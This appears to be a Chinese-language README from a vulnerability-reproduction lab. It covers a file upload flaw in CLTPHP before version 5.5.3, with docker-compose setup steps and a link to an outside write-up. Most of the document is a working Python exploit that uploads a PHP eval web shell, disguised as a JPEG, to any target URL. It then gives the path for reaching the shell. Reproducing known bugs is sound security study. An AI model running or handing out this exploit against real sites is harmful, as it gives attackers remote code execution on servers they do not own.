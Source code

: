 ## 环境构建
```
docker-compose build 
docker-compose up -d
```


## 漏洞介绍
cltphp是一个利用thinkphp开发的业务系统，该业务系统在5.5.3之前存在一个上传漏洞，可以通过前台getshell




getshell payload
```
import requests  

import sys  



def CLPHP_upload(url):  

    header = { 'User-Agent' : 'Mozilla/4.0 (compatible; MSIE 5.5; Windows NT)' ,  

                'X-Requested-With': 'XMLHttpRequest',}   

    geturl = url+"/user/upFiles/upload"  

    files ={'file':('1.php','<?php eval($_POST["pass"]) ?>','image/jpeg')}  

    res = requests.post(geturl, files=files,headers=header)  

    print(res.text)

  

if __name__ == "__main__":  

    if len(sys.argv) == 2:  

        url=sys.argv[1]  

        CLPHP_upload(url)  

        sys.exit(0)  

    else:  

        print ("usage: %s www.xxx.com" % sys.argv[0])  

        sys.exit(-1)    
```
![](luffy.png)
然后访问
http://127.0.0.1:8002/public/uploads/20180624/c7518cc3e814ff4e6e2adf078ebd4a44.php


## 漏洞连接
[链接一](https://mp.weixin.qq.com/s?__biz=MzA3NzE2MjgwMg==&mid=301419949&idx=1&sn=0a4ab4f3c69e22aba6a69a09bcbfe009&chksm=0b55ddf03c2254e6982bd0b8fca4b410462781b3435acf837ba622888aa1cd62631736f3660c&mpshare=1&scene=23&srcid=0318lckYIwNLZKInw7H18N4w#rd)

